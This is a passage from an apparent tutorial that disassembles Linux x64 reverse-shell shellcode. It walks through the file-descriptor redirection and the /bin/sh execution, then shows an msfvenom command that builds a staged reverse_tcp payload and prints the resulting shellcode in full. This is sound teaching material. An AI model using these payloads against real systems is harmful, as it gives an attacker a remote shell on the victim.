 ```
24: 6a 03                   push   0x3
26: 5e                      pop    rsi
27: 48 ff ce                dec    rsi
2a: 6a 21                   push   0x21
2c: 58                      pop    rax
2d: 0f 05                   syscall
2f: 75 f6                   jne    0x27
```
This sets the standard input, standard output and standard error to the file descriptor of the socket. In other words, everything will go through the socket.

```
31: 6a 3b                   push   0x3b
33: 58                      pop    rax
34: 99                      cdq
35: 48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
3c: 73 68 00
3f: 53                      push   rbx
40: 48 89 e7                mov    rdi,rsp
43: 52                      push   rdx
44: 57                      push   rdi
45: 48 89 e6                mov    rsi,rsp
48: 0f 05                   syscall 
```
This executes `/bin/sh`. As `stdout` or `stderr` have been redirected to the socket, the target IP address receives the shell and can interact with the system.
#### Staged payload assembly
Let's do the same with the staged payload:
```
$msfvenom -p linux/x64/shell/reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f c > staged_reverse_shell.c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of c file: 574 bytes

$cat staged_reverse_shell.c
unsigned char buf[] = 
"\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
"\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
"\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
"\x11\x5c\xac\x11\x00\x01\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
"\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
"\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
"\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
"\x6a\x01\x5f\x0f\x05\x5e\x6a\x26\x5a\x0f\x05\x48\x85\xc0"
"\x78\xed\xff\xe6";
```

This corresponds to the following assembly code:
```
0:  31 ff                   xor    edi,edi
2:  6a 09                   push   0x9
4:  58                      pop    rax
5:  99                      cdq
6:  b6 10                   mov    dh,0x10
8:  48 89 d6                mov    rsi,rdx
b:  4d 31 c9                xor    r9,r9
e:  6a 22                   push   0x22
10: 41 5a                   pop    r10
12: 6a 07                   push   0x7
14: 5a                      pop    rdx
15: 0f 05                   syscall
```